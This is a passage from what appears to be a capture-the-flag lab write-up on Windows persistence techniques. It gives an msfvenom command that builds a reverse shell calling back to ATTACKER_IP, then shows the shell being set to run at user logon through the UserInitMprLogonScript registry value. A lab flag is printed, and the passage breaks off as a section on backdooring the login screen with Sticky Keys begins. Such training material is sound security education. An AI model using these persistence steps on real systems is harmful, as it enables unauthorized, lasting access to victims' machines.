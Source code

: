 ```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![Backdoored env](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9ce41ee1fc282b8dcacd757b23417b12.png)

Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute `C:\flags\flag13.exe` to get a flag

Once we did all steps, we get a shell:

![](../images/Pasted%20image%2020250516114216.png)

```
C:\flags> .\flag13.exe
THM{USER_TRIGGERED_PERSISTENCE_FTW}
```

# Backdooring the Login Screen / RDP
---

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

We will look at two methods that rely on accessibility features to this end.

## Sticky Keys

When pressing key combinations like `CTRL + ALT + DEL`, you can configure Windows to use sticky keys, which allows you to press the buttons of a combination sequentially instead of at the same time. In that sense, if sticky keys are active, you could press and release `CTRL`, press and release `ALT` and finally, press and release `DEL` to achieve the same effect as pressing the `CTRL + ALT + DEL` combination.

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` 5 times. After inputting the shortcut, we should usually be presented with a screen that looks as follows:
